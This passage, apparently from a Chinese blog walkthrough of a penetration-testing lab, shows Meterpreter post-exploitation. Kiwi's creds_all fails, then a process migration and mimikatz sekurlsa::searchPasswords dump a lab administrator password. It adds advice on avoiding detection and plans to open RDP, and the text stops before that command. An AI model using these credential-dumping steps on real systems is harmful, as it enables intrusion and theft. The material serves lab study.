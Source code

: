

**3：加载 kiwi模块**



这里尝试加载kiwi模块，获取不到账号密码



```
load kiwi      
creds_all
```




![](https://img-blog.csdnimg.cn/20191216223021155.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**4：加载 mimikatz 模块**



再尝试加载 mimikatz 模块，加载模块前需要先将meterpreter迁移到64位的进程，而且该进程也需要是system权限运行的。如图，成功获得账号密码：administrator/hongrisec@2019



```
migrate PID      
load mimikatz      
mimikatz_command -f sekurlsa::searchPasswords
```




![](https://img-blog.csdnimg.cn/20191216223226250.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **远程桌面登录**



这里我们已经获得了administrator的账号和密码，现在我们既可以使用administrator账号登录，也可以新建账号登录(hack/Password@)。(不建议直接用administrator身份登录，因为这样有可能会惊动管理员)



![](https://img-blog.csdnimg.cn/20191216225534893.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



通过nmap扫描发现该主机的3389端口呈过滤状态，由此猜想可能是防火墙将该端口过滤了



![](https://img-blog.csdnimg.cn/20191216224006688.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



于是执行以下命令开启3389端口



